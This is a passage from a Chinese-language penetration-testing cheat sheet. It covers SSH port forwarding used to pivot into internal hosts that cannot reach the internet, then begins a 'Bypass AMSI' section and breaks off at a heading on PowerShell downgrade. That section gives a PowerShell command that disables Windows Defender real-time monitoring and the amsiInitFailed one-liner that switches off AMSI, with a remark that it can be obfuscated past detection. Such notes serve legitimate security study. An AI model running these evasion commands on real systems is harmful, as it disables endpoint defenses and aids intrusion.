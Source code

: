 这里要注意一点，远程端口转发是由远程主机上的sshd服务控制的，默认配置情况下，sshd服务只允许本地开启的远程转发端口(4444)绑定在环回地址(127.0.0.1)上，即使显式指定了bind\_addr也无法覆盖。也就是这里访问127.0.0.1:4444端口可以访问成功，访问192.168.183.195:4444却不能访问成功。

要允许本地的远程转发端口绑定在非环回地址上，需要在外网主机的sshd配置文件中启用”GatewayPorts”项，它的默认值为no，这里将它改为yes。然后重新远程转发一下即可用外网地址访问。

##### SSH动态转发,正向代理做动态的端口转发

本地或远程转发端口和目标端口所代表的应用层协议是一对一的关系，不同的服务就要建立不同的端口，工作很是繁琐，而动态转发只需绑定一个本地端口，而目标端口是根据你发起的请求决定的，比如请求为445端口，通过ssh转发的请求也是445端口。

语法格式：

1-

ssh -D \[bind\_addr:\]port remote-

这里举一个最简单的列子：翻墙。国内正常情况下上不了Google，我们可以通过将流量转发到国外的vps上这样就可以正常访问了。-
在本地执行以下命令，并查看建立连接情况

1-

ssh -Nfg -D 3333 root@45.77.xx.xx-

连接建立成功，设置浏览器到本地主机的3333端口

##### SSH动态转发，正向代理进行单一的端口转发

利用ssh -L 提供正向代理，将192.168.183.2的80端口映射到45.77.xx.xx的1111端口上

访问45.77.xx.xx:1111相当于访问192.168.183.2:80 中间需要192.168.183.1的ssh进行正向代理进行利用。

语法格式：

1-

ssh -L 45.77.xx.xx:1111:192.168.183.2:80 root@192.168.183.1-

此时我们访问45.77.xx.xx的1111端口就相当于访问内网不出网机器的192.168.183.2:80

# 16.Bypass AMSI

[How to Bypass AMSI](https://0range-x.github.io/2022/01/23/AMSI/)

管理员权限关闭amsi

1-

Set-MpPreference \-DisableRealtimeMonitoring $true-

### 一键关闭AMSI

1-

\[Ref\].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPubilc,Static').SetValue($null,$true)-

被加黑了，可以混淆过

### powershell降级
